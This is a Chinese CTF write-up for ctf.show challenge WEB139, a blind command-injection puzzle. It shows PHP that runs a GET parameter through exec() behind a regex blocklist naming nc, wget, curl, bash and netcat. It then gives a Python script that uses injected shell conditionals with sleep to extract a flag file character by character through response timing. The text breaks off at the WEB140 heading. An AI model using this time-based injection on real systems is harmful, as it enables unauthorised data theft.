 

## WEB139

```
 <?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?> 
```

136加强版

用不了tee了，写入权限被ban了

直接挂大佬的脚本

exp：

```
import requests
url = 'http://135ef009-546d-48ab-9d0b-a2ed99b174b3.challenge.ctf.show'
res = ''
for j in range(1,60):
    for k in range(32,128):
        k = chr(k)
        payload = "?c="+f"if [ `cat /f149_15_h3r3 | cut -c {j}` == {k} ];then sleep 2;fi"
        try:
            requests.get(url=url+payload,timeout=(1.5,1.5))
        except:
            res += k
            print(res)
            break
res += ' '

```

真的很慢，拿到flag后套个套就可以了



## WEB140

